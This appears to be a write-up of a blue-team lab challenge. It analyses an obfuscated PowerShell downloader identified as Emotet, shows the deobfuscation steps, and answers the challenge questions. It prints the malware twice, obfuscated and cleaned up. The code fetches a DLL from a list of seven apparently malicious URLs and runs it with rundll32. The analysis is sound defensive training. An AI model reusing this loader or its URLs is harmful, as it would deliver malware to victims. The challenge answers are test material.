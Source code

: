 # Malicious PowerShell Analysis

Link: [BTLO](https://blueteamlabs.online/home/challenge/malicious-powershell-analysis-bf6b52faef)

## Requirements

- Cyberchef and regex enabled editor

## Questions

### Powershell code

Go to Cyberchef -> Base64 decode -> Decode text as ISO-8859

```
 sEt MKu ( [TYPe]("{0}{1}{2}{4}{3}" -F 'SYsT','eM.','io.DI','ORY','rECt') );    SeT-iTEM  ('vaR'+'IabLE'+':mBu') (  [TYPe]("{6}{8}{0}{3}{4}{5}{2}{7}{1}" -f'SteM','Ger','Ma','.n','et.seRVIcepOi','nt','s','NA','Y')); $ErrorActionPreference = (('S'+'il')+('en'+'t')+'ly'+('Cont'+'i'+'nue'));$Cvmmq4o=$Q26L + [char](64) + $E16H;$J16J=('N'+('_0'+'P')); (DIr VariabLE:Mku  ).VaLUe::"c`REAt`edI`REC`TORy"($HOME + (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') -F [chAR]92));$C39Y=(('U6'+'8')+'S');  ( vARiaBLe  ("m"+"bu")  -VAlueoN  )::"sEcuRITYproT`o`c`ol" = ('T'+('ls'+'12'));$F35I=('I'+('4'+'_B'));$Swrp6tc = (('A6'+'9')+'S');$X27H=('C3'+'3O');$Imd1yck=$HOME+((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))+$Swrp6tc+(('.'+'dl')+'l');$K47V=('R'+('4'+'9G'));$B9fhbyv=(']'+('a'+'nw[3s://adm'+'int'+'k.c'+'o'+'m/'+'w')+('p-adm'+'in/'+'L/')+'@'+(']a'+'n'+'w[3s')+':'+'/'+'/m'+('ike'+'ge')+('e'+'r'+'inck.')+('c'+'om')+('/c/'+'Y'+'Ys')+'a'+('/@]'+'anw'+'['+'3://free'+'lanc'+'e'+'rw')+('ebdesi'+'gnerh'+'yd')+('er'+'aba')+('d.'+'com/')+('cgi'+'-bin'+'/S')+('/'+'@'+']anw')+('[3'+'://'+'etdog.co'+'m'+'/w')+('p-'+'co')+'nt'+('e'+'nt')+('/n'+'u/@')+(']a'+'nw[3')+'s'+('://'+'www'+'.hintu'+'p.c')+('o'+'m.')+('b'+'r/')+'w'+('p'+'-co')+('n'+'ten')+('t'+'/dE/'+'@]a'+'nw[3://'+'www.')+'s'+('tm'+'arouns'+'.')+('ns'+'w')+('.'+'edu.au/p'+'a'+'y'+'pal/b8')+('G'+'/@]')+('a'+'nw[')+('3:'+'/')+('/'+'wm.mcdeve'+'lop.net'+'/'+'c'+'on'+'t'+'e')+('nt'+'/')+'6'+('F2'+'gd/'))."RE`p`lACe"(((']a'+'n')+('w'+'[3')),([array]('sd','sw'),(('h'+'tt')+'p'),'3d')[1])."s`PLIT"($C83R + $Cvmmq4o + $F10Q);$Q52M=('P'+('0'+'5K'));foreach ($Bm5pw6z in $B9fhbyv){try{(&('New'+'-Objec'+'t') SysTem.nEt.WEBcLIeNT)."do`WNl`OaD`FIlE"($Bm5pw6z, $Imd1yck);$Z10L=('A9'+'2Q');If ((&('Ge'+'t-It'+'em') $Imd1yck)."len`G`TH" -ge 35698) {&('r'+'undl'+'l32') $Imd1yck,(('Co'+'nt')+'r'+('ol'+'_RunD'+'L')+'L')."T`OSt`RiNG"();$R65I=('Z'+('09'+'B'));break;$K7_H=('F1'+'2U')}}catch{}}$W54I=(('V9'+'5')+'O').
```

Now it is time to do a series of tricks to beautify the code. I like to use regexes via Atom editor.

Some of the search rules:
```
\(('[^()]*')\)
```

Easiest way to fix the type and some of the replaces is to Write-Output of the functions and replace it in the code
```
PS C:\Users\labuser> Write-Output [TYPe]("{6}{8}{0}{3}{4}{5}{2}{7}{1}" -f'SteM','Ger','Ma','.n','et.seRVIcepOi','nt','s','NA','Y')
sYSteM.net.seRVIcepOintMaNAGer

PS C:\Users\labuser> Write-Output$B9fhbyv=(']anw[3s://admintk.com/wp-admin/L/@]anw[3s://mikegeerinck.com/c/YYsa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/S/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-content/dE/@]anw[3://www.stmarouns.nsw.edu.au/paypal/b8G/@]anw[3://wm.mcdevelop.net/content/6F2gd/')."REplACe"((']anw[3'),([array]'sd','sw',('http'),'3d')[1])."sPLIT"($C83R + '@' + $F10Q);^C
PS C:\Users\labuser> Write-Output $B9fhbyv
sws://admintk.com/wp-admin/L/
sws://mikegeerinck.com/c/YYsa/
sw://freelancerwebdesignerhyderabad.com/cgi-bin/S/
sw://etdog.com/wp-content/nu/
sws://www.hintup.com.br/wp-content/dE/
sw://www.stmarouns.nsw.edu.au/paypal/b8G/
sw://wm.mcdevelop.net/content/6F2gd/
```

After all the cleaning up, we will end-up with the following code
```
sEt MKu ( 'SYsTeM.io.DIORYrECt' );
SeT-iTEM  'vaRIabLE:mBu' (  sYSteM.net.seRVIcepOintMaNAGer);
$ErrorActionPreference = ('SilentlyContinue');
(DIr VariabLE:Mku  ).VaLUe::"cREAtedIRECTORy"($HOME + '\Db_bh30\Yf5be5g\');
( vARiaBLe  ("mbu")  -VAlueoN  )::"sEcuRITYproTocol" = 'Tls12';
$dll_file=$HOME+'\Db_bh30\Yf5be5g\A69S.dll';

$url_list=('sws://admintk.com/wp-admin/L/', 'sws://mikegeerinck.com/c/YYsa/', 'sw://freelancerwebdesignerhyderabad.com/cgi-bin/S/', 'sw://etdog.com/wp-content/nu/', 'sws://www.hintup.com.br/wp-content/dE/', 'sw://www.stmarouns.nsw.edu.au/paypal/b8G/', 'sw://wm.mcdevelop.net/content/6F2gd/');

foreach ($url in $url_list) {
  try{
    (&'New-Object' SysTem.nEt.WEBcLIeNT)."doWNlOaDFIlE"($url, $dll_file);
    If ((&'Get-Item' $dll_file)."lenGTH" -ge 35698) {
      &'rundll32' $dll_file,('Control_RunDLL')."TOStRiNG"();
      break;
    }
  }
  catch{}
}
```

### What security protocol is being used for the communication with a malicious domain? (3 points)

`TLS 1.2`

### What directory does the obfuscated PowerShell create? (Starting from \HOME\) (4 points)

`HOME\Db_bh30\Yf5be5g\`

### What file is being downloaded (full name)? (4 points)

`A69S.dll`

### What is used to execute the downloaded file? (3 points)

`rundll32`

### What is the domain name of the URI ending in ‘/6F2gd/’ (3 points)

`wm.mcdevelop.net`

### Based on the analysis of the obfuscated code, what is the name of the malware?

`EMOTET`

Take one of the URLs in the list and put it in Google
